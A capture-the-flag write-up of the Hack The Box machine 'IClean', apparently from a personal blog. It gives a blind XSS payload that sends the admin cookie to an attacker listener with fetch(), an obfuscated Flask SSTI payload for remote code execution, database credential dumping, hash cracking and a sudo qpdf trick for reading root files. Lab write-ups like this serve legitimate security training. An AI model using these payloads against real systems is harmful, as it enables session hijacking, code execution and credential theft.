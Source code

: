 # IClean

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
└─➜ nmap -p22,80 $IP -sCV                                                                                                                                                                 [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 21:55 IST
Nmap scan report for capiclean.htb (10.129.43.189)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```

* Directory scan wasn't that imp on this machine (so skipping it)

## Web -> XSS

![image](https://gist.github.com/assets/56447720/9603e459-2368-4d3f-ac06-b794210d0b77)

Give dummy data and click on submit, after submitting we can see that there's a message "team will get back to you"

![image](https://gist.github.com/assets/56447720/2f04d4ba-0984-4893-8072-ecfefe5c7eaf)

Hmm, feel like XSS, (BLIND XSS)

* Blind XSS

We can send a payload and wait for the admin to view our response and we can get their cookies.

* Payload

```js
<img src=x onerror=fetch("http://IP:PORT/"+document.cookie);>
```

* Response

```js
└─➜ python3 -m http.server 9001          
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.43.189 - - [08/Apr/2024 22:13:40] code 404, message File not found
10.129.43.189 - - [08/Apr/2024 22:13:40] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk <<SNIP>> ODk0YTRdDBh9dWK-w5cJYTlg HTTP/1.1" 404 -

```

And now we are admin

![image](https://gist.github.com/assets/56447720/1bfe2f2e-850c-47e0-8807-d7b5eb9e56ca)

## Web -> SSTI

AAAHHH, the website is build with python flask, the first bug i can thought of is SSTI.

![image](https://gist.github.com/assets/56447720/29d31fe3-e6bc-4dce-b50b-9af840681a2b)

* The invoice generator is vulnerable to SSTI

![image](https://gist.github.com/assets/56447720/bfee3a1b-841b-4420-9b44-904bbb058908)

#### SSTI -> RCE

![image](https://gist.github.com/assets/56447720/6368cc9a-68aa-4c18-9fae-1d7f1534aa9f)

* Encode the payload to base64 and send it to the server

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

![image](https://gist.github.com/assets/56447720/6b5b422a-1dfd-4866-9fa1-cc3e5675458d)

## www -> User

* we have found db creds

```py
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

* I used mysql cli to view data from the db

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_capiclean
quote_requests
services
users

www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee

```

The reason i choose to use mysql cli is because the tty session of rev shell is not good to handle sql data, it doesn't work better basically

* Crack the hash

```bash
└─# hashcat -a 0 -m 1400  iclean-consuela.hash ../wordlists/rockyou.txt
hashcat (v6.2.6) starting
<<SNIP>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:<<REDACTED>>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494da...6927aa
<<SNIP>>

Started: Mon Apr  8 17:41:28 2024
Stopped: Mon Apr  8 17:41:33 2024
```

## User -> root

* Login with ssh and get user.txt

#### Sudo -l

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Sorry, try again.
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf

```

* Documentation

{% embed url="https://qpdf.readthedocs.io/en/stable/cli.html" %}

```bash
consuela@iclean:/tmp$ sudo qpdf --empty --add-attachment /root/root.txt -- pwn.pdf
consuela@iclean:/tmp$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages
```

After we bring pwn.pdf in our local machine (through, scp, python3 server) we can get contents of root.txt

You can take id\_rsa in order to get root shell on the box.

Machine pwned!!

## \_\_\_\_heapbytes still pwning

